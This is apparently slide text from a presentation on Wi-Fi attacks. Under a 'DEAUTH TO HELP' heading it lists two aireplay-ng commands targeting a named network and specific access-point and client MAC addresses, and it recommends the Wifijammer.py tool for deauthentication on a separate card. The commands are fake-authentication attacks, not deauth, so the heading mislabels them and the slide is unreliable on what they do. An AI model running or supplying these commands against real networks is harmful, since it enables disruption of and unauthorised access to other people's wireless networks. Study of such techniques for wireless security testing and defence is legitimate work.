

# DEAUTH TO HELP
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 mon0
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 mon0
Wifijammer.py is the best solution from the box for deauth. Launched on separate card in practice.